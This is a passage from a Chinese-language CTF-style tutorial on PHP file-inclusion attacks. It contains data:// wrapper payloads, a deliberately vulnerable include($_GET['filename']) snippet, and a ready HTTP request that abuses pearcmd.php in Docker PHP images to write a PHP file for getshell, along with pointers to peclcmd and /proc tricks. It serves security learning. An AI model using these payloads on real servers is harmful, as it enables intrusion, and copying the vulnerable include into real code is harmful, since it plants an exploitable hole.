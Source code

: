   ```php
  data://text/plain,<?php phpinfo();
  data://text/plain;base64,[Base64编码后的代码]
  ```

- **示例**：

  ```php
  # 注意使用 data:// 的时候必须开启 allow_url_include 和 allow_url_fopen
  <?php
    highlight_file(__FILE__);
    include($_GET['filename']);
  ?>
  
  推荐使用 `base64` 编码进行参数的传递
  ```


![img](https://yk-image-md.oss-cn-wuhan-lr.aliyuncs.com/image202406101743181.jpeg)

## bypass

### pearcmd

在[Docker PHP裸文件本地包含综述](https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html#0x06-pearcmdphp)中，提到了 `pearcmd.php` 的利用方法。该方法无需竞争条件，也没有额外的版本限制，只要是Docker启动的PHP环境即可通过一个数据包搞定。

> 在Docker的任何版本镜像中，`pcel/pear`都会被默认安装，安装路径在`/usr/local/lib/php`

通过发送以下数据包，目标将写入一个文件 `/tmp/hello.php`，其中包含 `<?=phpinfo()?>`。然后，利用文件包含漏洞包含这个文件即可实现getshell。

```http
GET /index.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=phpinfo()?>+/tmp/hello.php HTTP/1.1
Host: 192.168.1.162:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
```

### peclcmd

与 `peclcmd` 相似，参考 [SEETF-2023](https://github.com/zeyu2001/My-CTF-Challenges/blob/main/SEETF-2023/readonly/README.md) 中的一道题目。

### proc

在文件包含漏洞的情境中，通常会存在非预期的情况，例如 [Dreamer_revenge](https://5ime.cn/hmgb-2023.html#Dreamer-revenge)（红明谷杯 2023）、[ArkNights](https://jbnrz.com.cn/index.php/2023/09/03/ycb2023/#header-id-13)（羊城杯 2023）、[YamiYami](https://ph0ebus.cn/post/HDCTF2023 Writeup.html#非预期解)（HDCTF 2023）、[MyBox](https://www.cnblogs.com/gxngxngxn/p/17662463.html)（NSSCTF 2nd）。因此，如果出题人未清空变量，很有可能通过 `/proc` 实现非预期攻击。
